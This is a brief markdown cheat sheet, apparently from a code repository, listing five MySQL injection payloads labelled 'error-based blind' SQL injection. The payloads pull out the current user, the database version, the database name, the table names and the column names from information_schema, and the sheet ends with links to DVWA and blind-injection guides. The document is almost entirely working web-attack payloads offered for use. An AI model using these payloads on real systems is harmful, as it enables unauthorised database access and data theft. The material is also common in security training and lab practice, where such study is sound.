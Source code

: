 # Error-Based Blind Query SQL Injection

1. Extract the current user:

```sql
' OR IF(1=1, (SELECT user()), 0)#
```

2. Extract the database version:

```sql
' OR IF(1=1, (SELECT @@version), 0)#
```

3. Extract the current database name:

```sql
' OR IF(1=1, (SELECT database()), 0)#
```

4. Extract tables from the current database:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 0)#
```

5. Extract columns from a specific table:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<table_name>'), 0)#
```

## References

- [SQL Injection (Blind) [DVWA]](https://www.linkedin.com/pulse/sql-injection-blind-dvwa-nguyen-nguyen/)

- [Blind SQL Injection: An Expert’s Guide to Detect and Exploit](https://www.stationx.net/blind-sql-injection/)